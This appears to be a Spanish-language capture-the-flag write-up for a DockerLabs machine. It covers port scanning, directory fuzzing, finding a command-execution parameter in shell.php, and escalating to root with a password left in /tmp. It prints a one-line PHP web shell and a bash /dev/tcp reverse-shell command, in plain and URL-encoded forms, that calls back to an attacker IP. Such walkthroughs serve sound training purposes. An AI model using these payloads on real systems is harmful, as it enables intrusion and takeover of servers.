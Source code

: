 # 🕵️‍♂️ whereIsMyWebShell
![IMAGEN_MAQUINA_PORTADA](./imagenes/portada.png)
> 💡 NOTA:  En mi [repositorio dockerlabs](https://github.com/damcorbor/dockerlabs/tree/main/comandos)  suelo ir dejando una lista con los comandos, herramientas y servicios que he ido usando durante los laboratorios, y los explico un poco por si alguien quiere repasarlos o usarlos como referencia.
---

## 🔍 Reconocimiento

Como siempre, comenzamos nuestro análisis con un escaneo de puertos usando `nmap`.

![Escaneo Nmap](./imagenes/nmap.png)

En este caso, únicamente vemos abierto el puerto **80**.

Antes de visitar directamente la web, hacemos un **fuzzing** con `gobuster` para descubrir posibles directorios ocultos.

![Gobuster](./imagenes/gobuster.png)

Aparte del típico `index.html`, aparecen dos archivos interesantes: `warning.html` y `shell.php`.

Entramos en `index.html` y, al revisar el código fuente, encontramos algo curioso:

> "guardo un secreto en /tmp"

![Código fuente](./imagenes/codigo.png)

De momento no podemos hacer mucho con esto, pero lo dejamos apuntado por si nos sirve más adelante.

Después accedemos a `warning.html`, que nos muestra lo siguiente:

![FFUF](./imagenes/ffuf.png)

Con esta información, podemos deducir que el archivo `shell.php` probablemente contenga algo como:

```php
<?php
system($_GET['cmd']);
?>
```
Si logramos encontrar el parámetro adecuado (en este ejemplo sería cmd), podríamos llegar a ejecutar comandos en el servidor de forma remota.

## 💥 Explotación
Accedemos al ``shell.php``, pero en principio no muestra nada. Para encontrar el parámetro que usa, lanzamos un fuzzing con un diccionario.

![FUZZING](./imagenes/fuzzing.png)

¡Perfecto! Descubrimos que el parámetro es: parameter.

Con esto en mano, probamos si es vulnerable a LFI (Local File Inclusion), intentando cargar un archivo del sistema: ``http://172.17.0.2/shell.php?parameter=/etc/passwd``

No obtenemos ningún resultado, así que vamos a probar si es vulnerable a RCE (Remote Command Execution).

![RCE](./imagenes/RCE.png)

¡Bingo! Es vulnerable. Vamos a intentar ejecutar una reverse shell para ganar acceso.

> Una reverse shell es una conexión que se lanza desde la máquina víctima hacia nuestra máquina atacante, permitiéndonos controlar el sistema de forma interactiva.

Nos ponemos en escucha con ``nc -lvnp 3344`` y luego ejecutamos la reverse shell desde el navegador: ``bash -c "bash -i >& /dev/tcp/172.17.0.1/3344 0>&1"``

> ⚠️ Aunque nuestra IP de atacante sea distinta, en entornos Docker la IP 172.17.0.1 suele pertenecer al host (es decir, al adaptador de red principal del contenedor). Por eso se utiliza esa IP para hacer la conexión de vuelta.

Sin embargo, vemos que no funciona directamente. Esto es porque el carácter & tiene un significado especial en URLs y debe ser encodeado como %26. Lo mismo pasa con > que se encodea como %3E.

La URL correcta sería algo como: ``http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/3344 0>%261"``

![REVERSHELL](./imagenes/revershell.png)

Y así obtenemos acceso como el usuario www-data. 

>www-data es el usuario por defecto que utilizan los servidores web como Apache o Nginx para ejecutar scripts. Tiene permisos limitados por seguridad.

## 🚀 Escalada de privilegios

En este punto, estabilizamos la shell (tratamiento de TTY) y nos dirigimos al directorio /tmp, ya que según el código fuente había un secreto allí.

Al inspeccionar vemos un archivo oculto. Usamos cat para visualizar su contenido y parece ser una contraseña... ¡de root!

La introducimos... ¡y efectivamente somos root! 

![ROOT](./imagenes/root.png)

Máquina comprometida 🔓

## 🏁 Conclusión

En este reto hemos visto:

- Cómo descubrir endpoints ocultos mediante **fuzzing** (gobuster, ffuf).
- Cómo detectar y explotar una vulnerabilidad de tipo **RCE** en un script PHP mal protegido.
- Cómo realizar una **reverse shell** correctamente en un entorno Docker.
- Qué es el usuario **www-data** y cómo se accede mediante un shell interactivo.
- Cómo aprovechar pistas en el código fuente para encontrar credenciales sensibles.
- Y finalmente, cómo escalar privilegios hasta ser **root** gracias a un archivo olvidado en `/tmp`.
